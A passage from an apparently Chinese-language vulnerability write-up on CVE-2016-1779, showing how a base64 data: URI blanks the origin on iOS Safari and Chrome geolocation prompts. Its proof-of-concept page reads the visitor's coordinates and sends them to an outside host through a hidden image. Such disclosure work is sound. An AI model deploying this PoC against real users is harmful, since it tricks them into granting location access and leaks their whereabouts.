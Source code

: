 ### 2.2 认证框的源

触发Geolocation的认证框很简单，我们只要运行下面的代码即可，前提是之前没有允许当前域获取Geolocation。

```
<script>
    function success(position) {}
    navigator.geolocation.getCurrentPosition(success);
</script>

```

例如：http://www.test.com/geo.html。运行后，浏览器会在当前页面上弹出认证对话框，对话框的UI上会显示来源：www.test.com。

### 2.3 PoC Exploit Code of CVE-2016-1779

在2.2中是触发Geolocation认证源的一个简单流程。从这个过程中，我有了以下的想法。

*   可否改变认证源。
*   如果可以改变，是否可以为空。

于是，按照这个思路，开始了我的测试之旅。在这个过程中，发现IOS下Safari和Chrome在使用`data:`来解析这段代码时，认证源头将为“`://`”

```
data:text/html;base64,PHNjcmlwdD4KZnVuY3Rpb24gc3VjY2Vzcyhwb3NpdGlvbikge30KbmF2aWdhdG9yLmdlb2xvY2F0aW9uLmdldEN1cnJlbnRQb3NpdGlvbihzdWNjZXNzKTsKPC9zY3JpcHQ+Cg==

```

safari:

![p1](http://drops.javaweb.org/uploads/images/89bac48b6f19f0d0abbb5596f774983105c98ffd.jpg)

chrome:

![p2](http://drops.javaweb.org/uploads/images/e75eebf199df8cf6825220ed943ad74c2120475e.jpg)

接下来，我进一步优化了POC，如下

```
<title>test</title>
<script>
function geo(){
window.open('http://www.google.com');
location = 'data:text/html;base64,PCFET0NUWVBFIGh0bWw+CjxodG1sIGxhbmc9ImVuIj4KPGhlYWQ +CjxtZXRhIGNoYXJzZXQ9dXRmLTggLz4KPHRpdGxlPmdlb2xvY2F0aW9uPC90aXRsZT4KPGJvZHk+CjxzY3JpcHQ +CmZ1bmN0aW9uIHN1Y2Nlc3MocG9zaXRpb24pIHsKZG9jdW1lbnQuZ2V0RWxlbWVudEJ5SWQoJ3JlbW90ZScpLnNyYz0iaHR0cDovL3hpc2lnci5jb20vdGVzdC9nZW8v Z2V0LnBocD9nZW9sb2NhdGlvbj0iKyItLS0tLS0iK2VuY29kZVVSSUNvbXBvbmVudChwb3NpdGlvbi5jb29yZHMubGF0aXR1ZGUpKyIsIitlbmNvZGVVUklDb21wb25lb nQocG9zaXRpb24uY29vcmRzLmxvbmdpdHVkZSk7CiB9Cm5hdmlnYXRvci5nZW9sb2NhdGlvbi5nZXRDdXJyZW50UG9zaXRpb24oc3VjY2Vzcyk7Cjwvc2NyaXB0Pgo8aW 1nIGlkPSJyZW1vdGUiIHNyYz0iIiB3aWR0aD0wIGhlaWdodD0wPgo8L2JvZHk+CjwvaHRtbD4=';
}

</script>

<button onclick='geo()'>Click Me</button>

```
